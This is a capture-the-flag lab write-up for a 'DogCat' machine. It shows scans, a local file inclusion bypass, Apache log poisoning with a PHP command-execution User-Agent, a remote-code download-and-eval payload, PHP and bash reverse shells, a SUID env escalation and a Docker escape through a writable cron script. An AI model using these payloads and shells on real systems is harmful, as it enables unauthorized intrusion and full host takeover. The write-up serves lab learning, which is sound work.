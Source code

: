 # DogCat


## Scans
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.112.106:80
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-1.0.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      313c http://10.10.112.106/dogs
301        9l       28w      313c http://10.10.112.106/cats
200       19l       37w      418c http://10.10.112.106/
```

## Eumeration

Website has two buttons, dog and cat.

View parameter gets file, required "dog" or "cat" in the name

Seems to also include .php extension?

We can use the dogs folder to bypass the filter and escape to other dirs

LFI by inputting this as a parameter:
```?view=php://filter/convert.base64-encode/resource=dogs/../index```

PHP code can be gotten by using the B64 PHP filter and requesting "index":
```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	   $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Another parameter found, "ext" which is appended to the "view" parameter, defaults to .php

Apache's access log is viewable with the parameter:
```?view=dogs/../../../../var/log/apache2/access&ext=.log```

User agent is being logged, possible entry point

## Exploitation

Using Apache's access log (/var/log/apache2/access.log) we can inject PHP code into the log file and get it to run on the server

By using Burp, we can set the User-Agent string to PHP code and request an unknown page:
```
GET /AAAAA HTTP/1.1
Host: 10.10.88.65
User-Agent: <? passthru($_GET[cmd]) ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Now when we access the log it checks for a "cmd" parameter and attempts to run it in a shell

I then set up a MSF exploit/multi/script/web_delivery listener which gave code to download meterpreter

By sending this parameter, PHP connects to the listener and executes the shell
```?view=dogs/../../../../var/log/apache2/access&ext=.log&cmd=php%20-d%20allow_url_fopen=true%20-r%20%22eval(file_get_contents(%27http://IP:8888/d7KISSBIYZQUc%27,%20false,%20stream_context_create([%27ssl%27=%3E[%27verify_peer%27=%3Efalse,%27verify_peer_name%27=%3Efalse]])));%22```

We now have a shell!

## Privilege Escalation

From the meterpreter shell, I also connected a pwncat shell to mess around with that

Used the pentestmonkey PHP shell to connect:
```php -r '$sock=fsockopen("$LOCAL_IP",9998);exec("/bin/sh -i <&3 >&3 2>&3");'```

NOTHING WORKED, I tried for 30 minutes to get any other type of shell connected and it just wouldn't

Using meterpreter, I ran linpeas and found that /usr/bin/env has SUID set

Simple GTFObins search found the payload:
```./env /bin/bash -p```

And we have root!


## Container Escape

But wait, LinPEAS found that we are inside of a docker container

It also listed that the /opt/backups/backup.tar file was written to recently

Going into the /opt/backups directory there is a shell script "backup.sh"

Could the host machine be running this with a cron entry?

We can write to it, so appending a reverse shell wouldn't hurt:
```echo "bash -i >& /dev/tcp/$LOCAL_IP/9969 0>&1" >> /opt/backups/backup.sh```

Listining with pwncat gives us a shell after a couple of seconds!

We now have a root shell on the host machine!
